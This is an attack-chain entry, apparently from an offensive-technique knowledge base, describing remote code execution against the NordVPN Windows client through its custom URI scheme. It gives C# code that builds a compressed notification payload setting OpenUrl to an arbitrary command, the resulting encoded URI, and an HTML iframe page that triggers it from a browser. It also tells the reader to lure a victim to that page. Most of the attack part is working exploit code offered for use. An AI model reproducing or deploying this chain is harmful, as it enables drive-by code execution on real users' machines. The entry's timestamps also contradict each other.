

---
tags:
  - rce
  - nordvpn
  - uri-scheme
  - command-injection
  - windows
type: attack_chain
tools:
  - '[[tools/Newtonsoft-Json]]'
  - '[[tools/NordVpn-Core]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/generate-nordvpn-malicious-payload]]'
platforms:
  - Windows
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-NordVPN-Notification-Payload]]'
  - '[[procedures/Host-Malicious-Webpage-with-Iframe-Trigger]]'
  - '[[procedures/Trigger-NordVPN-Exploit-via-Browser]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Windows Command Shell]]'
description: >-
  Exploits custom URI schemes in the NordVPN Windows client to achieve remote
  code execution by crafting and triggering a malicious notification payload
  from a web browser.
skill_level: intermediate
impact_level: high
id: ad3d2198-7d1c-4af3-8ae9-a0788b0d1a89
created_at: '2025-12-14T17:24:08.523Z'
updated_at: '2025-12-14T17:24:08.523Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Windows Command Shell]]'
---
# Remote Code Execution via NordVPN Custom URI Scheme on Windows

Multi-stage attack chain demonstrating a complete attack workflow exploiting the NordVPN Windows client's custom URI schemes for remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Newtonsoft-Json]]
- [[tools/NordVpn-Core]]

### Target Environment

- Target OS/Platform: Windows with NordVPN client installed (NordVPN.exe)
- Required services/ports: None specific; requires web browser and HTTP server for delivery
- Network access requirements: Attacker controls a web server; victim must visit attacker's webpage

### Initial Access Requirements

- Credential requirements: None
- Network position: Remote via web
- Prior access needed: Victim must have NordVPN installed and confirm browser prompt

## Detailed Attack Procedures

### Step 1: Craft Malicious Payload
procedure: [[procedures/Craft-Malicious-NordVPN-Notification-Payload]]

**Objective**: Generate a compressed malicious URL payload that sets the 'OpenUrl' argument to an arbitrary command like 'calc.exe' for execution via Process.Start.

**Instructions**: Use the [[commands/generate-nordvpn-malicious-payload]] to create the payload:

```csharp
Dictionary<string,string> arguments = new Dictionary<string,string>(); arguments["OpenUrl"]="calc.exe"; NotificationActionArgs toastArgs = new NotificationActionArgs("", arguments); String exploit = ObjectCompressor.CompressObject(toastArgs); Console.Write(String.Format("NordVPN.Notification:{0}", exploit)); Console.ReadKey();
```

**Expected Output**: A compressed URI like `NordVPN.Notification:UAAAAB+LCAAAAAAABAANy0EKgCAQBdC7/LV0AHdC0K5WHWAQi4FpFB2hkO5eb/8Glpp7gQcc1mx8cCTjrEFJHuPYZjKC1y7iEOrZr6TW4Ae2knSv8tdIEqd0J7zvBy7afohQAAAA`.

**Success Indicators**:
- Valid compressed payload generated without errors
- Payload decodes to include 'OpenUrl' set to the target command

### Step 2: Host Malicious Webpage
procedure: [[procedures/Host-Malicious-Webpage-with-Iframe-Trigger]]

**Objective**: Embed the malicious URI in an HTML iframe to deliver the exploit via a webpage served over HTTP.

**Instructions**: Create an HTML file with an iframe sourcing the malicious URI and serve it using a local HTTP server (e.g., Python's `http.server`).

Example HTML:

```html
<!DOCTYPE html>
<html>
<body>
<iframe src="NordVPN.Notification:UAAAAB+LCAAAAAAABAANy0EKgCAQBdC7/LV0AHdC0K5WHWAQi4FpFB2hkO5eb/8Glpp7gQcc1mx8cCTjrEFJHuPYZjKC1y7iEOrZr6TW4Ae2knSv8tdIEqd0J7zvBy7afohQAAAA"></iframe>
</body>
</html>
```

Serve with: `python -m http.server 8000` and access via `http://localhost:8000`.

**Expected Output**: Webpage loads with iframe attempting to trigger the NordVPN URI.

**Success Indicators**:
- Webpage accessible and iframe renders without errors
- Browser detects the custom URI scheme

### Step 3: Trigger Exploit
procedure: [[procedures/Trigger-NordVPN-Exploit-via-Browser]]

**Objective**: Open the malicious webpage in a victim's browser to prompt confirmation and execute the arbitrary command.

**Instructions**: Direct the victim to the hosted webpage. Upon loading, the browser will prompt to open NordVPN.exe; confirm to process the payload and execute the command (e.g., calc.exe launches).

**Expected Output**: Browser prompt appears; after confirmation, the specified command runs (e.g., Calculator opens).

**Success Indicators**:
- Browser prompt for NordVPN.exe
- Arbitrary command executes successfully
- No crashes in NordVPN client

## Attack Chain Summary

### Key Achievements

1. Crafted a deserializable malicious payload exploiting unvalidated URI arguments
2. Delivered the exploit remotely via a drive-by webpage interaction
3. Achieved full remote code execution on the victim's Windows machine

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[Exploitation for Client Execution]]
- [[Windows Command Shell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
